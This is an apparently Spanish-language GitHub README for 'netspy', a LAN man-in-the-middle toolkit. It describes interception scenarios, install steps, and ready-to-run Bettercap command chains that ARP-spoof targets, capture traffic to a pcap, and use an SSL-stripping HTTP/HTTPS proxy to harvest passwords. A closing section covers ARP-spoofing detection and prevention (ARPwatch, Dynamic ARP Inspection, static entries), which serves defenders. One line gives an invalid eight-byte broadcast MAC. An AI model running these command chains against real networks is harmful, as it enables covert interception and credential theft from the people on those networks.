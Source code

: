 # Interceptacion Ethernet

MiTM interceptación de trafico LAN en claro:

Estenarios:

1º.- Interceptación entre 2 puntos; 

Disponer de acceso a uno de los 2 puntos, e instalar en altuno de los extremos: Wireshark, nifsoft, Bettercap, Ethercap, Extension navegador, netspym etc..

2º.- red LAN con HUB o switch "sin inteligencia"

Instalar un HUB en el medio de una red, por su modo de funcionamiento rebotan todos los pquete en todas las MAC y paquete Ethernet, par interceptación.

Instalar un PC conectado al HUB, con la  tarjeta  de red en modo promiscuo, que escuche todo el trafico de la red. Tener instalado Wireshark, netspy,etc

Modificar MAC Adrees de un PC conectado a la red, con la MAC Broadcast FF:FF:FF:FF:FF:FF:FF:FF que escurche todo el trafico de la red

3º.- En una red LAN con Switch inteligente:

Configurar port mirroning en el switch para que una copia de todo el trafico se encamine a una sola ethernet del switch, donde hay un PC en modo promiscuo con Wirehark, netspy, etc.. capturando 

En un PC conectado a la red instalar un Proxy, para hacer pasar, encaminar por el e interceptar el trafico!

En un PC conectado instala un Proxy trasparente. Usa ARP Spoofing, suplantación de MAC, para encaminar y poder ver e interceptar  el trafico de otros dispositivos!

4º.- Instalar en la pasales, FW , routers, swithes, etc.. equipos en medio de las redes para interceptación: HUBS, switches port mirronig, proxyes, .. 

<img style="float:left" alt="Escenarios interceptacion" src="https://github.com/hackingyseguridad/netspy/blob/master/MiTM.png">
#
<img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/netspy/blob/master/netspy.png">

# netspy

# 1.- Descubre elementos de red 2.- Captura y muestra en pantalla el trafico.

# Instalacion:

apt-get install bettercap

apt-get install netdiscover

git clone https://github.com/hackingyseguridad/netspy

cd netspy

chmod 777 netspy

# Uso.:

sh netspy

sh proxynetspy

netdiscover

IMPORTANTE: Para salir del modo de descubrimiento 'net probe on' y empezar a esnifar teclea 'exit'.

# Bettercap v2.9

Escanear toda la Red:

net.probe on; ticker on

Banear tarjet IP con ARP:

set arp.spoof.targets IP; arp.spoof on; set arp.ban on; net.probe on

Capturar trafico en fichero siff_all.pcap:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.output /tmp/sniff_all.pcap; set net.sniff.verbose false; net.sniff on

Ver Trafico:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on

Ver trafico web por proxy y extrae claves:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on; set http.proxy.sslstrip true

Ver trafico web por proxy y extrae claves de cifrados debiles:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on;  true; set http.proxy.port 80; set https.proxy.port 443; http.proxy on; https.proxy on; set http.proxy.sslstrip


Versiones antiguas Bettercap: 1.6.1 y 1.6.2 en Python

El ARP Spoofing, o envenenamiento ARP, es un tipo de ataque cibernético que puede comprometer seriamente la seguridad de una red local. Consiste en la manipulación de la tabla ARP de un dispositivo para redirigir el tráfico de red hacia el atacante, permitiéndole interceptar y modificar la información que fluye por la red.
¿Cómo detectar un ataque de ARP Spoofing?
Dado que este tipo de ataque suele ser silencioso y difícil de detectar a simple vista, es fundamental contar con herramientas y técnicas específicas. Aquí te presentamos algunas:
Herramientas de Detección:
•	Sniffers de paquetes: Herramientas como Wireshark te permiten analizar el tráfico de red en tiempo real. Al examinar los paquetes ARP, puedes identificar patrones inusuales o respuestas ARP falsas.
•	Sistemas de detección de intrusiones (IDS): Un IDS bien configurado puede detectar anomalías en el tráfico de red, como un aumento repentino en el número de solicitudes ARP o respuestas ARP falsas.
•	Herramientas especializadas: Existen herramientas diseñadas específicamente para detectar ARP Spoofing, como ARPwatch, que monitorea la tabla ARP y alerta sobre cambios inesperados.
Técnicas de Detección:
•	Monitoreo de la tabla ARP: Revisa regularmente la tabla ARP de los dispositivos de tu red para identificar entradas desconocidas o duplicadas.
•	Análisis de registros: Examina los registros del sistema y de las herramientas de seguridad para buscar cualquier indicio de actividad sospechosa, como intentos de acceso no autorizados o cambios en la configuración de la red.
•	Pruebas de penetración: Realiza pruebas de penetración periódicas para identificar vulnerabilidades en tu red y evaluar la efectividad de tus medidas de seguridad.
•	Uso de protocolos de seguridad: Implementa protocolos de seguridad como DHCP Snooping, IP Source Guard y Dynamic ARP Inspection (DAI), que pueden ayudar a prevenir y detectar ataques de ARP Spoofing.
Síntomas de un Ataque de ARP Spoofing:
Aunque no siempre son evidentes, algunos síntomas pueden indicar un ataque de ARP Spoofing:
•	Problemas de conectividad: Dificultad para acceder a ciertos sitios web o servicios de red.
•	Pérdida de paquetes: Interrupciones en la comunicación o lentitud en la red.
•	Actividad sospechosa en la red: Detección de tráfico no autorizado o intentos de acceso a recursos sensibles.
•	Cambios inesperados en la configuración de red: Modificaciones no autorizadas en la configuración de los dispositivos de red.
Prevención del ARP Spoofing:
•	Configuraciones estáticas: Establece entradas ARP estáticas para dispositivos críticos, como routers y servidores.
•	Segmentación de redes: Divide tu red en segmentos más pequeños para limitar el impacto de un posible ataque.
•	Actualizaciones de software: Mantén todos tus dispositivos actualizados con los últimos parches de seguridad.
•	Educación de los usuarios: Sensibiliza a los usuarios sobre los riesgos de los ataques cibernéticos y cómo protegerse.
•	ARP firmado con certificado y clave PKI


https://github.com/hackingyseguridad/mitm

www.hackingyseguridad.com

